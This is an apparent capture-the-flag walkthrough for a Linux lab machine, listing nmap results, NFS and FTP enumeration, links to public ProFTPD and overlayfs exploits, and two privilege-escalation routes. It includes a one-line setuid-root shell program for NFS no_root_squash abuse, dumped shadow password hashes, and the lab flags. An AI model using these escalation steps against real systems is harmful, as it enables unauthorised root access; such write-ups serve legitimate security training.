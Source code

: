 # OUTDATED

![](../.gitbook/assets/0353f61f38e1421495b77462d0f4a01f.png)

## NMAP SCAN

```text
21/tcp    open  ftp      syn-ack ttl 63 ProFTPD 1.3.5
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36538/udp6  mountd
|   100005  1,2,3      50489/udp   mountd
|   100005  1,2,3      58020/tcp   mountd
|   100005  1,2,3      59947/tcp6  mountd
|   100021  1,3,4      32941/tcp   nlockmgr
|   100021  1,3,4      47273/udp6  nlockmgr
|   100021  1,3,4      52531/udp   nlockmgr
|   100021  1,3,4      57675/tcp6  nlockmgr
|   100024  1          32984/tcp6  status
|   100024  1          42348/tcp   status
|   100024  1          46256/udp   status
|   100024  1          48833/udp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 63 2-3 (RPC #100227)
32941/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
41348/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
42348/tcp open  status   syn-ack ttl 63 1 (RPC #100024)
43453/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
58020/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
```

## FTP ENUMERATION

![](../.gitbook/assets/47fae8a314754d4db1873cf5665d3f8c.png)

## NFS ENUMERATION

![](../.gitbook/assets/458c936ea3004bbd9c44c8ea94384225.png)

![](../.gitbook/assets/22ad47de117141cabb6bf4c9fe6bc84c.png)

![](../.gitbook/assets/4269f387947c48f2a03444e6fca6bc35.png)

### USERS

```text
anna
daniel
robert
```

## MANUAL EXPLOIT

* [https://www.exploit-db.com/exploits/36742](https://www.exploit-db.com/exploits/36742)

![](../.gitbook/assets/a7806617560344e3a77705ad266ef746.png)

![](../.gitbook/assets/c0a5dc90799c4963846a4110a5f748b9.png)

## LOGIN SSH

![](../.gitbook/assets/fd358d1b81004bd68ef61ce62a8242a0.png)

## LINPEAS

* UPLOAD LINPEAS AND RUN IT

![](../.gitbook/assets/dff4391ef7e74d3abcfd51dd4b24607e.png)

![](../.gitbook/assets/1c426ea4986e476a951ba63be28545ac.png)

![](../.gitbook/assets/f0b3179cf0ae40ccad721c0877d3310f.png)

## PRIVESC \(2 WAYS\)

### 1. NO ROOT SQUASH

* [https://recipeforroot.com/attacking-nfs-shares/](https://recipeforroot.com/attacking-nfs-shares/)
* Create a C script ON ATTACKER MACHINE INSIDE THE MOUNTED NFS

```text
sudo echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

![](../.gitbook/assets/9fddaac0775b4c29bba78f8962e0703d.png)

* ON VICTIM MACHINE

![](../.gitbook/assets/9b48b23f301243d08ed4a3377f193d85.png)

### 2. KERNEL 'OVERLAYFS' PRIVESC

* [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

![](../.gitbook/assets/f27944938ba5460bb9139a8090222005.png)

## CREDS

```text
root:$6$0ssVOLUT$JczO91Fh5J4K0U0yIODQ7JV/Laky.Y8VxWkvQQQx7khPQkjH/lUfnXFLdrE3yF3WIF3iVpnLYbLU8vcqg1Wka.:18443:0:99999:7:::
daniel:$6$2cmYWp87$l1HEOI4RqMqc6112qfUqoF7lVvII/6BfMJhUwLtutQC8DTSucrnSUFyUi39pLRAvkUkpqYdE7WJwQ.g29yUf..:18443:0:99999:7:::
```

## FLAGS

### USER

```text
c3f5c15577e8d04d18ead19da6e9ea7a
```

### ROOT

```text
1d57710c976ac5da6092e60f852506b8
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

